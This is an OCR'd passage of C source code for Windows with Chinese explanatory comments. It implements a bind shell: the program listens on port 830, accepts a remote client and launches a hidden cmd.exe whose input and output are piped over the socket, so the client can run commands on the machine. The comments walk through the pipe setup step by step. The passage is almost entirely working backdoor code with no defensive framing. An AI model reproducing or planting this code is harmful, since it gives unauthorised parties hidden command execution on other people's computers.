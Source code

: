 ```
     server.sin_addr.s_addr=ADDR_ANY;
     ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
     ret=listen(listenFD,2);
     //如果客户请求 830 端口，接受连接
     int iAddrSize = sizeof(server);
     SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&iAddrSize);
     SECURITY_ATTRIBUTES pipeattr1, pipeattr2;
     HANDLE hReadPipe1,hWritePipe1,hReadPipe2,hWritePipe2;
     //建立匿名管道 1
     pipeattr1.nLength = 12; 
     pipeattr1.lpSecurityDescriptor = 0;
     pipeattr1.bInheritHandle = true;
     CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
     //建立匿名管道 2
     pipeattr2.nLength = 12; 
     pipeattr2.lpSecurityDescriptor = 0;
     pipeattr2.bInheritHandle = true;
     CreatePipe(&hReadPipe2,&hWritePipe2,&pipeattr2,0);
     STARTUPINFO si;
     ZeroMemory(&si,sizeof(si));
     si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
     si.wShowWindow = SW_HIDE;
     si.hStdInput = hReadPipe2;
     si.hStdOutput = si.hStdError = hWritePipe1;
     char cmdLine[] = "cmd.exe";
     PROCESS_INFORMATION ProcessInformation;
     //建立进程    
ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
     /*
     解释一下，这段代码创建了一个 cmd.exe，把 cmd.exe 的标准输出和标准错误输出用第一个管道的写句柄替换；cmd.exe 的标准输入用第二个管道的读句柄替换。
     如下：
      (远程主机)←输入←管道 1 输出←管道 1 输入←输出(cmd.exe 子进程)
     (远程主机)→输出→管道 2 输入→管道 2 输出→输入(cmd.exe 子进程) 
     */
     unsigned long lBytesRead;
     while(1)
     {
         //检查管道 1，即 CMD 进程是否有输出
         ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         if(lBytesRead)
         {
              //管道 1 有输出，读出结果发给远程客户机
              ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
              ret=send(clientFD,Buff,lBytesRead,0);
              if(ret<=0) break;
         }
         else
         {
              //否则，接收远程客户机的命令
              lBytesRead=recv(clientFD,Buff,1024,0);
              if(lBytesRead<=0) break;
              //将命令写入管道 2，即传给 cmd 进程
              ret=WriteFile(hWritePipe2,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
         }
     }
     return 0;
} 
```

